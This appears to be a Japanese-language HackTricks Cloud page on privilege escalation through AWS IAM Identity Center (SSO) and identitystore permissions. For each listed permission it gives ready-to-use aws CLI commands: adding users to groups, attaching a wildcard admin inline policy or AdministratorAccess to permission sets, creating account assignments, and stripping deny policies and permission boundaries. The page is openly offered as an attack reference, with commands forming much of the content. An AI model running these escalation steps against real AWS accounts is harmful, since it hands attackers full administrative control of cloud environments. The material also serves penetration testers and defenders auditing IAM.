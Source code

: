 # AWS - SSO & identitystore Privesc

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## AWS Identity Center / AWS SSO

AWS Identity Center / AWS SSOに関する詳細情報は次を確認してください：

{% content-ref url="../../aws-security/aws-services/aws-iam-enum.md" %}
[aws-iam-enum.md](../../aws-security/aws-services/aws-iam-enum.md)
{% endcontent-ref %}

{% hint style="warning" %}
**デフォルト**では、**管理アカウント**からの**権限を持つユーザー**のみがIAMアイデンティティセンターにアクセスし、**制御**できることに注意してください。\
他のアカウントのユーザーは、そのアカウントが**委任管理者**である場合にのみ許可されます。\
[詳細についてはドキュメントを確認してください。](https://docs.aws.amazon.com/singlesignon/latest/userguide/delegated-admin.html)
{% endhint %}

### ~~パスワードのリセット~~

このような場合に権限を昇格させる簡単な方法は、ユーザーのパスワードをリセットする権限を持つことです。残念ながら、ユーザーにパスワードをリセットするためのメールを送信することしかできないため、ユーザーのメールにアクセスする必要があります。

### `identitystore:CreateGroupMembership`

この権限を使用すると、ユーザーをグループに設定でき、そのグループが持つすべての権限を継承します。

{% code overflow="wrap" %}
```bash
aws identitystore create-group-membership --identity-store-id <tore-id> --group-id <group-id> --member-id UserId=<user-id>
```
{% endcode %}

### `sso:PutInlinePolicyToPermissionSet`, `sso:ProvisionPermissionSet`

この権限を持つ攻撃者は、自分の管理下にあるユーザーに付与されたPermission Setに追加の権限を付与することができます。

{% code overflow="wrap" %}
```bash
# Set an inline policy with admin privileges
aws sso-admin put-inline-policy-to-permission-set --instance-arn <instance-arn> --permission-set-arn <perm-set-arn> --inline-policy file:///tmp/policy.yaml

# Content of /tmp/policy.yaml
{
"Version": "2012-10-17",
"Statement": [
{
"Sid": "Statement1",
"Effect": "Allow",
"Action": ["*"],
"Resource": ["*"]
}
]
}

# Update the provisioning so the new policy is created in the account
aws sso-admin provision-permission-set --instance-arn <instance-arn> --permission-set-arn <perm-set-arn> --target-type ALL_PROVISIONED_ACCOUNTS
```
{% endcode %}

### `sso:AttachManagedPolicyToPermissionSet`, `sso:ProvisionPermissionSet`

この権限を持つ攻撃者は、自分の管理下にあるユーザーに付与されたPermission Setに追加の権限を付与することができます。

{% code overflow="wrap" %}
```bash
# Set AdministratorAccess policy to the permission set
aws sso-admin attach-managed-policy-to-permission-set --instance-arn <instance-arn> --permission-set-arn <perm-set-arn> --managed-policy-arn "arn:aws:iam::aws:policy/AdministratorAccess"

# Update the provisioning so the new policy is created in the account
aws sso-admin provision-permission-set --instance-arn <instance-arn> --permission-set-arn <perm-set-arn> --target-type ALL_PROVISIONED_ACCOUNTS
```
### `sso:AttachCustomerManagedPolicyReferenceToPermissionSet`, `sso:ProvisionPermissionSet`

この権限を持つ攻撃者は、自分の管理下にあるユーザーに付与されたPermission Setに追加の権限を付与することができます。

{% hint style="warning" %}
この場合、これらの権限を悪用するには、**影響を受けるすべてのアカウント内にあるカスタマーマネージドポリシーの名前**を知っている必要があります。
{% endhint %}

{% code overflow="wrap" %}
```bash
# Set AdministratorAccess policy to the permission set
aws sso-admin attach-customer-managed-policy-reference-to-permission-set --instance-arn <instance-arn> --permission-set-arn <perm-set-arn> --customer-managed-policy-reference <customer-managed-policy-name>

# Update the provisioning so the new policy is created in the account
aws sso-admin provision-permission-set --instance-arn <instance-arn> --permission-set-arn <perm-set-arn> --target-type ALL_PROVISIONED_ACCOUNTS
```
{% endcode %}

### `sso:CreateAccountAssignment`

この権限を持つ攻撃者は、自分の管理下にあるユーザーに対してアカウントにPermission Setを付与することができます。

{% code overflow="wrap" %}
```bash
aws sso-admin create-account-assignment --instance-arn <instance-arn> --target-id <account_num> --target-type AWS_ACCOUNT --permission-set-arn <permission_set_arn> --principal-type USER --principal-id <principal_id>
```
{% endcode %}

### `sso:GetRoleCredentials`

ユーザーに割り当てられた特定のロール名のSTS短期資格情報を返します。

{% code overflow="wrap" %}
```
aws sso get-role-credentials --role-name <value> --account-id <value> --access-token <value>
```
{% endcode %}

しかし、取得方法がわからないアクセストークンが必要です（TODO）。

### `sso:DetachManagedPolicyFromPermissionSet`

この権限を持つ攻撃者は、指定された権限セットからAWS管理ポリシーの関連付けを削除できます。**管理ポリシーを切り離す（拒否ポリシー）**ことで、より多くの権限を付与することが可能です。

{% code overflow="wrap" %}
```bash
aws sso-admin detach-managed-policy-from-permission-set --instance-arn <SSOInstanceARN> --permission-set-arn <PermissionSetARN> --managed-policy-arn <ManagedPolicyARN>
```
{% endcode %}

### `sso:DetachCustomerManagedPolicyReferenceFromPermissionSet`

この権限を持つ攻撃者は、指定された権限セットからカスタマー管理ポリシーとの関連を削除できます。**管理ポリシーを切り離すこと（拒否ポリシー）**により、より多くの権限を付与することが可能です。

{% code overflow="wrap" %}
```bash
aws sso-admin detach-customer-managed-policy-reference-from-permission-set --instance-arn <value> --permission-set-arn <value> --customer-managed-policy-reference <value>
```
{% endcode %}

### `sso:DeleteInlinePolicyFromPermissionSet`

この権限を持つ攻撃者は、権限セットからインラインポリシーの権限を削除することができます。インラインポリシー（拒否ポリシー）を切り離すことで**より多くの権限を付与する**ことが可能です。

{% code overflow="wrap" %}
```bash
aws sso-admin delete-inline-policy-from-permission-set --instance-arn <SSOInstanceARN> --permission-set-arn <PermissionSetARN>
```
{% endcode %}

### `sso:DeletePermissionBoundaryFromPermissionSet`

この権限を持つ攻撃者は、権限セットからPermission Boundaryを削除できます。Permission Boundaryから与えられたPermission Setの制限を取り除くことで、**より多くの権限を付与することが可能です**。

{% code overflow="wrap" %}
```bash
aws sso-admin   delete-permissions-boundary-from-permission-set --instance-arn <value> --permission-set-arn <value>
```
{% endcode %}

{% hint style="success" %}
AWSハッキングを学び、実践する：<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
GCPハッキングを学び、実践する：<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricksをサポートする</summary>

* [**サブスクリプションプラン**](https://github.com/sponsors/carlospolop)を確認してください！
* **💬 [**Discordグループ**](https://discord.gg/hRep4RUj7f)または[**Telegramグループ**](https://t.me/peass)に参加するか、**Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**をフォローしてください。**
* **ハッキングのトリックを共有するには、[**HackTricks**](https://github.com/carlospolop/hacktricks)および[**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud)のGitHubリポジトリにPRを提出してください。**

</details>
{% endhint %}

